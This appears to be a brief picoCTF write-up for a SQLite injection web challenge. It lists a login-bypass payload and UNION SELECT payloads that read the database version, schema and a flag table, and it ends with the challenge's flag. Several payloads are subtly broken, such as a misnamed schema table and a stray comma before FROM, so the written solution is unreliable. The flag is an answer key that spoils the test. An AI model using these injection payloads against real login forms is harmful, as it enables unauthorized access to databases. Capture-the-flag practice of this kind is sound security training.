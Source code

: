 #### Description

Can you find the flag on this website.

Additional details will be available after launching your challenge instance.

### Hints

1. SQLiLite

### Solucion
```
please login in
'or 1==1;
password
'or 1==1;
'union select sqlite_version(),2,3;
Algiers' union select sql,2,3 from sqlite_sqli_master;
hola' union select id,flag,3,from more_table;
```

```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}
```
